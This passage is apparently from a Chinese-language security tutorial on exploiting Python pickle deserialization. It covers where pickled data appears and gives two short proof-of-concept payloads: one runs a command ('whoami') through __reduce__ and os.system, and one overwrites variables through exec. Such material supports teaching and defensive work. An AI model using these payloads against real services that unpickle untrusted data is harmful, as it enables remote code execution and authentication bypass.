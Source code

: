 ##  漏洞利用

###  出现的地方

1. 通常在解析认证`token`, `session`的时候. 现在很多`Web`服务都使用`redis`、`mongodb`、`memcached`等来存储`session`等状态信息.
2. 可能将对象`Pickle`后存储成磁盘文件.
3. 可能将对象`Pickle`后在网络中传输.

### 利用方式

1. 用来任意代码执行或者命令执行
2. 覆盖变量或者一些值，从而达到绕过身份认证的目的

### 一些基本的payload

**任意代码执行**

```
import pickle
import os

class exp(object):
    def __reduce__(self):
        s = """whoami"""  # 要执行的命令
        return os.system, (s,)        # reduce函数必须返回元组或字符串

e = exp()
poc = pickle.dumps(e)
print(poc) 
pickle.loads(poc)
#如果 pickle.loads(poc)，就会执行命令
```

**变量覆盖**

```
import pickle

key1 = b'321'
key2 = b'123'
class exp(object):
    def __reduce__(self):
        return (exec,("key1=b'1'\nkey2=b'2'",))

a = exp()
pickle_a = pickle.dumps(a)
print(pickle_a)
pickle.loads(pickle_a)
print(key1, key2)
```

### Marshal 反序列化
